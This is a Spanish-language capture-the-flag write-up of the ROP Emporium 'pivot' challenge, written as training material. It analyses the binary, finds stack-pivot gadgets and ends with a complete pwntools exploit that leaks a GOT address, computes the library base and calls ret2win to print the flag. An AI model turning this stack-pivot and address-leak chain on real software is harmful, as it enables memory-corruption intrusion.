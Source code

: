 En este ejercicio nos vuelven a dar un binario y una libc.

```c
pwndbg> checksec
File:     /home/ub1cu0/Desktop/ropEmporium/pivot/pivot
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'.'
Stripped:   No
```

El binario nos permite introducir 2 valores:

```c
./pivot 
pivot by ROP Emporium
x86_64

Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0x7f89e0608f10
Send a ROP chain now and it will land there
> hola
Thank you!

Now please send your stack smash
> adios
Thank you!

Exiting
```

Vamos a ver como se ve eso desde `ghidra`:

```c
void pwnme(void *puntero) {
    char array[32];

    memset(array, 0, 0x20);
    puts("Call ret2win() from libpivot");
    printf("The Old Gods kindly bestow upon you a place to pivot: %p\n", puntero);
    puts("Send a ROP chain now and it will land there");
    printf("> ");
    read(0, puntero, 0x100);
    puts("Thank you!\n");
    puts("Now please send your stack smash");
    printf("> ");
    read(0, array, 0x40);
    puts("Thank you!");
    return;
}
```

Como podemos ver, tenemos un buffer overflow con 32 bytes se sobra en el segundo valor que nos piden. También podemos ver que el primer valor que guarda un valor en `puntero`. Vamos a mirar de donde viene ese puntero:

```c
void pwnme(void *puntero);

int main(void) {
    void *ptr;

    setvbuf(stdout, NULL, _IONBF, 0);  // Sin buffer en stdout
    puts("pivot by ROP Emporium");
    puts("x86_64\n");

    ptr = malloc(0x10000000);
    if (ptr == NULL) {
        puts("Failed to request space for pivot stack");
        exit(1);
    }

    // Llamar a pwnme con un puntero adelantado (offset 0xffff00)
    pwnme((char *)ptr + 0xffff00);

    free(ptr);
    puts("\nExiting");

    return 0;
}
```

El programa reserva una gran cantidad de espacio y el puntero es el inicio de ese espacio mas un valor grande, con lo cual es un puntero a una zona muy superior del espacio reservado.

Ahora que sabemos esto podemos hacer un stack pivoting, si conseguimos hacer que el rsp apunte al puntero tendremos la capacidad de hacer una rop chain muy larga.

Para hacer esto vamos a mirar si hay algún gadget interesante que nos permita manipular el rsp:

```c
0x004009bb : pop rax ; ret
. . .
0x004009bd : xchg rsp, rax ; ret
```

Con la fusión de estos 2 gadgets podemos controlar el rsp a voluntad. El programa como hemos viste en el código de la función `pwnme` imprime por pantalla el valor del puntero así teniendo esto tenemos los datos necesarios para hacer stack pivoting:

```python
io.recvlines(4)
pivot_addr = int(io.recvline().decode().strip().split(': ')[1], 16)

stack_pivoting = flat({
    offset: [
        pop_rax, pivot_addr,
        xchg_rsp_rax
    ]
})
```

Con ese payload haríamos que lo que pongamos en el primer input se ejecute una vez se haga el buffer overflow. Con lo cual pasamos de tener 32 bytes para hacer la rop chain a mucho mas.

Ahora que tenemos mas espacio podemos intentar sacar la flag. Si miramos la libc podemos ver que hay una función win que imprime la flag:

```c
void ret2win(void) {
    FILE *stream = fopen("flag.txt", "r");
    if (!stream) {
        puts("Failed to open file: flag.txt");
        exit(1);
    }

    char buf[0x21];
    fgets(buf, sizeof(buf), stream);
    puts(buf);

    fclose(stream);
    exit(0);
}
```

Para poder saber la dirección podemos intentar hacer un leak de puts con puts pero la libc que tiene la función `ret2win` no tiene puts sin embargo el binario si. Si miramos mas funciónes de la libc podemos ver la siguiente:

```c
void foothold_function(void) {
    puts("foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot");
}
```

Lo que pasa es que esa función no se ha llamado nunca con lo cual no está resuelta aun en el `got` para poder sacar su dirección. Lo que tenemos que hacer es llamar nosotros a esa función con nuestra rop chain para hacer que se escriba la dirección en el `got`. Para eso necesitamos que la función `foothold_function` esté en la `plt` de nuestro binario, vamos a comprobarlo:

```c
00000000004009a8 <uselessFunction>:
  4009a8:	55                   	push   rbp
  4009a9:	48 89 e5             	mov    rbp,rsp
  4009ac:	e8 6f fd ff ff       	call   400720 <foothold_function@plt>
  4009b1:	bf 01 00 00 00       	mov    edi,0x1
  4009b6:	e8 95 fd ff ff       	call   400750 <exit@plt>
```

Está! Entonces podemos hacer un leak de esa función con puts y hacer el calculo para saber la dirección de la libc y así conseguir tener la dirección de la función de la libc `ret2win`, vamos con el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./pivot")
libc = ELF("./libpivot.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b ret2win
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()

    offset = 40
    pop_rdi = 0x00400a33 # pop rdi ; ret
    pop_rax = 0x004009bb # pop rax ; ret
    xchg_rsp_rax = 0x004009bd # xchg rsp, rax ; ret
    ret = 0x004006b6 # ret
    
    io.recvlines(4)
    pivot_addr = int(io.recvline().decode().strip().split(': ')[1], 16)
    
    log.success(f'Pivot Address: {hex(pivot_addr)}')
    
    payload1 = flat(
        exe.plt['foothold_function'],
        pop_rdi, exe.got['foothold_function'],
        exe.plt['puts'],
        exe.sym['pwnme'],
        exe.sym['main'], # Instrucción necesaria para que no reviente el exploit
    )
    
    payload2 = flat({
        offset: [
            pop_rax, pivot_addr,
            xchg_rsp_rax
        ]
    })
    
    io.sendlineafter(b'> ', payload1)
    io.sendlineafter(b'> ', payload2)
    
    io.recvlines(2)
    leak = u64(io.recvline().rstrip(b'\n').ljust(8, b'\x00')) # Guardamos el Leak
    log.success(f'Leak: {hex(leak)}')
    
    libc.address = leak - libc.sym['foothold_function'] # Calculamos la dirección base de la libc
    log.success(f'Libc Address: {hex(libc.address)}')
    
    info(f'Ret2win: {hex(libc.symbols['ret2win'])}')
    
    io.sendlineafter(b'> ', b'B' * 8) # La he liado al contar lineas o algo y me hace falta repetir esta linea
    io.sendlineafter(b'> ', b'B' * 8)
    io.sendlineafter(b'> ', b'B' * offset + p64(libc.symbols['ret2win']))
    
    io.interactive()

if __name__ == "__main__":
    main()

```

```c
[+] Starting local process '/home/ub1cu0/Desktop/ropEmporium/pivot/pivot': pid 218429
[+] Pivot Address: 0x7f916cc08f10
[+] Leak: 0x7f916ce0096a
[+] Libc Address: 0x7f916ce00000
[*] Ret2win: 0x7f916ce00a81
[*] Switching to interactive mode
Thank you!

Now please send your stack smash
> [*] Process '/home/ub1cu0/Desktop/ropEmporium/pivot/pivot' stopped with exit code 0 (pid 218429)
Thank you!
ROPE{a_placeholder_32byte_flag!}
```

Funciona! Gracias por leer.
